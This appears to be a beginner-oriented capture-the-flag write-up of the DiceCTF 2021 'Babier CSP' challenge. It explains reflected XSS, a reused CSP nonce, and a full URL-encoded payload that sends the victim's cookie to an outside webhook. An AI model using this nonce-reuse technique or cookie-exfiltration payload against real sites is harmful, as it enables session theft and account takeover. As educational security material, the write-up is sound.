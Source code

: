 

##
#
https://0x0elliot.medium.com/babier-csp-a-great-beginner-xss-challenge-c8b431c03385
#
https://github.com/0x0elliot/XSS-CTF-With-Python
#
##



From DiceCTF 2021

I had some time this weekend so i decided to play DiceCTF 2021. Babier CSP was a CTF i encountered. On first look, it’s your average XSS challenge with an addition of checking the nonce. Don’t let the word “nonce” scare you. I will try my best to simplify this challenge for you.

The challenge:


This is how the website looked like:


ignore my bookmarks
On first look, it’s clear that the parameter “name” in the link has the potential to inject some good old unfiltered input into it.


again, ignore my bookmarks
Now, Let’s try to see if we can inject HTML through this input.


you know what i am about to say
As you can see, I tried <u>pp</u>

The underline under “pp” verifies that indeed we can inject html into this page. (u html tag is used for underlining). Great, now let’s try to inject some javascript into this page using the <script> tag.

I will use the payload </h1><script>alert(1)</script><!-- to see if i am able to get an alert box to pop up to verify that indeed we are able to inject and successfully execute javascript as well. I used the </h1> tag to close the h1 tag before it and <!-- is just to comment whatever comes after so that i don’t have to worry about whatever is after it. In HTML to close the comment we need to use --> but HTML is smart enough to automatically make up for it.

Injecting malicious javascript code into a web page is termed as “Cross Site Scripting” often called “XSS”. You can pretty much make a user’s browser execute any function and it will seem like they executed it. This way, you can even steal their cookies and thus take over their account. That is of course, if the target website is vulnerable to XSS. You can learn more about it here.


The source code before i added my payload

The source code after I added my payload
Alright great. From the source code we can confirm that the script tags have been successfully injected. But upon loading i didn’t see the expected alert pop-up. Instead i was greeted with something like this:


That’s a blank page sir.
A blank page. Weird. I mean, we injected everything successfully as seen in the source code. The name of the challenge is babier CSP not babier XSS after all. So let’s look for some explanation in the console.


I just right clicked, Clicked on inspect element and now would click on console for the console.

Alright so we see some errors here. The console is where you go as a developer when your Javascript doesn’t work. It has the errors there. Since we injected some javascript which failed to work, we will look at it to see why exactly it didn’t work.

Refused to execute inline script because it violates the following Content Security Policy directive: “script-src ‘nonce-LRGWAXOY98Es0zz0QOVmag==’”. Either the ‘unsafe-inline’ keyword, a hash (‘sha256-bhHHL3z2vDgxUt0W3dWQOrprscmda2Y5pLsLg4GF+pI=’), or a nonce (‘nonce-…’) is required to enable inline execution.

This error basically means that due to the Content Security Policy (CSP, heh. Get why it’s babier CSP?) We can’t get the javascript in the code to work without using the right “nonce”.

A nonce is a hash, ie random string of characters that is supposed to be used just once. It’s used by the back-end and the Content Security Policy to verify that the javascript that’s going to run in the script tags is from a trusted source. If we go back to the original page, there is some javascript there which was intended to be there. Notice how there is a nonce attribute attached to the tag with it being equal to a sequence of weird characters. Yeah so that’s the “hash” that’s been verified by the back-end. It’s supposed to be only used once.

Now the vulnerability in this CTF is that the nonce itself isn’t being used once. You can verify by reloading the page and noticing how the nonce attribute always has the same value [LRGWAXOY98Es0zz0QOVmag==] EVERY time you reload the page.

Nice. We can further verify this by going through the provided app.js file


Don’t get scared if node js feels alien to you. It feels the same way to me :)
Notice how in the back-end code the NONCE constant is generated just once. Great, now we know that the nonce will always remain constant. So let’s just throw the nonce attribute in and see if it works. [Remember that the javascript that runs on your browser and the node js used to write the back end of this website are two different things. node js is javascript as well but an extension of it that you can run through your terminal. It is used to work on back-ends stuff. The javascript on your browser on the other hand can be only utilised to write front-end stuff. That is again, me simplifying things.]


BOI

Now that we are able to execute whatever javascript we want, Let’s proceed to clap some admin bot’s cheeks. That is, stealing their cookies.

The form of XSS that we are using is called Reflected XSS. You can learn about types of XSS here.

In reflected XSS, you can send a link to the victim and the link itself contains the payload that gets executed. For example, https://babier-csp.dicec.tf/?name=%3C/h1%3E%3Cscript%20nonce=LRGWAXOY98Es0zz0QOVmag==%3Ealert(1)%3C/script%3E%3C!-- how this link itself has our payload and it’s not stored anywhere. It gets executed because it reflects the parameters in the link.

Anyway, back to stealing cookies and clapping some cheeks.

Usually you need a server to steal cookies with XSS but https://requestbin.com/ makes your life so much easier by assigning you an endpoint you can send requests to and see the request details.

Using that site, I generated a random webhook.

```
<script>
document.location= "https://envn9mg1xs9204g.m.pipedream.net/?cookie=" + document.cookie
</script>
```

This payload basically redirects the victim’s browser to your webhook’s link and sends the parameter “cookie” with the value of the victim’s cookie.

So the payload link ends up being:

https://babier-csp.dicec.tf/?name=%3C/h1%3E%3Cscript%20nonce=LRGWAXOY98Es0zz0QOVmag==%3E%20document.location=%20%22https://envn9mg1xs9204g.m.pipedream.net/?cookie=%22%20%2B%20document.cookie%20%3C/script%3E

Great. Also heads up, remember that links have their respective encoding. If things screw up, Just replace the “+” you used in the code with “%2B” like i did or it will be considered a space instead.

I verified that the link works. Now it’s time to send it to the bot.


And now let’s check the latest request sent to our webhook.


Great! We have the cookie as secret=4b36b1b8e47f761263796b1defd80745

Now this part doesn’t really make sense but it’s fine.


Again referencing back to index.js provided to us, We can see that there is a secret endpoint which is basically the value of the cookie.


oh yeah! i think we are close boys.



And that’s the flag! What a sweet little CTF :D. Also Ps Adult CSP didn’t even have a website it was a pwn challenge. I was too lazy to try anything else so i didn’t. I have a school to manage guys don’t blame me.

Bonus


Remember this screenshot from a bit up? So favicon.ico is fetched by default by your browser. It shows an error due to the CSP because it is set to default-src-none


So this is some hardcore filtering. The website can’t fetch an image until and unless it’s pretty much whitelisted. That is why that other error came. It wasn’t whitelisted yet your browser tries to fetch it by default and that makes the CSP go “no go off i don’t trust this random file it’s not been whitelisted”.

If you liked the article, then feel free to follow me on twitter here. Feel free to drop some feedback there as well. Be kind while giving the feedback :>
I also run a community of hackers on discord. Here is the invite link to it: https://discord.gg/hyrSjqWXyH
Feel free to drop by to hangout, learn and contribute :D
We also have our lil CTFs there with a public leaderboard where you can learn new things and practice your skills.

Hacking
Xss
Web
Ctf
